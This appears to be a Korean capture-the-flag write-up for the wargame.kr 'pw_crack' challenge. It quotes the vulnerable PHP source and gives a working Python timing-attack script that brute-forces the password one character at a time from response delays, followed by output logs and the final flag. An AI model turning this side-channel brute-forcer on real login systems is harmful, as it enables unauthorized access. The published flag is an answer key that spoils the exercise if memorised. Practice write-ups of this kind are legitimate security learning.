

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

00시 마다 FLAG가 바뀐다고 한다.



소스를 보면 Let's go!버튼을 누르면 내가 웹에 접속한 IP:31337 TCP로 password : 라는 글자를 보내고 40글자까지 읽은 뒤, 가지고 있는 password랑 비교하면서 한 글자당 2초 씩 sleep한다.

```php
<?php
    if (isset($_GET['view-source'])) {
        show_source(__FILE__);
        exit();
    }
    include("../lib.php"); // include for auth_code function.

    //ini_set("display_errors", true);

    $password=auth_code("pw crack");
    $dest = $_SERVER['REMOTE_ADDR'];
    $port = 31337;
    $data="";

    $sock = @fsockopen($dest,$port,$errno,$errstr,10);
    if(!$sock){die("IP : $dest<br />port : $port<br /><h2>Connection Error</h2><br /><br />Please, open your port!");}
    fwrite($sock,"password : ");
    for($i=0;$i<40;$i++){
        $c=fgetc($sock);
        if(ord($c)==0 || ord($c) == 10){ break; }
        $data.=$c;
    }
    fclose($sock);
 
    for($i=0;$i<40;$i++){
        sleep(2);
        if($data[$i]!=$password[$i]){
            die("wrong password!");
            break;
        }
    }
    echo "<script> alert('congratulation!! that`s auth key!!'); </script>";
```

의미도 없고, 재미도 없고, 트래픽때문에 sleep시간 차이도 날 수도 있고, ㅈ같은 문제다. 진짜 쓰레기 문제다.

다음과 같은 Python script로 하루 종일(진짜)돌리면 FLAG를 얻을 수 있다.

* multi thread로 돌려봤지만, delay가 엉망진창이 되어서 single thread로 돌렸다.

```python
import urllib
import urllib.request
import threading
import time
import socket
import string

flag    = ''
HOST    = '0.0.0.0'
PORT    = 31337
chk     = False
s       = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((HOST, PORT))
s.listen()

def run_wargame(password):
    global chk
    url         = 'http://wargame.kr:8080/pw_crack/check.php'
    headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
    request     = urllib.request.Request(url, headers = headers)
    s_time      = time.time()
    urllib.request.urlopen(request)
    delay       = int(time.time() - s_time) - 2

    print('{} : {}'.format(password, delay))
    if delay >= (len(password) - 1)*2 + 2: chk  = True

def run_server(password):
    global s
    t = threading.Thread(target=run_wargame, args=(password, ))
    t.start()

    c,_ = s.accept()
    c.recv(1024) # "password : "
    c.sendall(password.encode()+b'\x00')
    c.close()

    t.join()

while True:
    s_time = time.time()
    chk = False
    for password_set in string.ascii_lowercase+string.digits:
        password = flag + password_set
        run_server(password)
        if chk == True:
            flag = password
            print('current flag : {} [{}]'.format(flag, time.time()-s_time ))
            break
    if chk == False: flag = flag[:-1]
    if len(flag) >= 40: break

s.close()

[Output]
... 생략 ...
c16d177f3938078492e442e7e24c5f088813f3 : 76
current flag : c16d177f3938078492e442e7e24c5f088813f3 [2284.174948692322]
c16d177f3938078492e442e7e24c5f088813f3a : 76
c16d177f3938078492e442e7e24c5f088813f3b : 76
c16d177f3938078492e442e7e24c5f088813f3c : 76
c16d177f3938078492e442e7e24c5f088813f3d : 78
current flag : c16d177f3938078492e442e7e24c5f088813f3d [314.8074357509613]
c16d177f3938078492e442e7e24c5f088813f3da : 78
c16d177f3938078492e442e7e24c5f088813f3db : 78
c16d177f3938078492e442e7e24c5f088813f3dc : 78
... 생략 ...
```

# **FLAG**

**c16d177f3938078492e442e7e24c5f088813f3d7**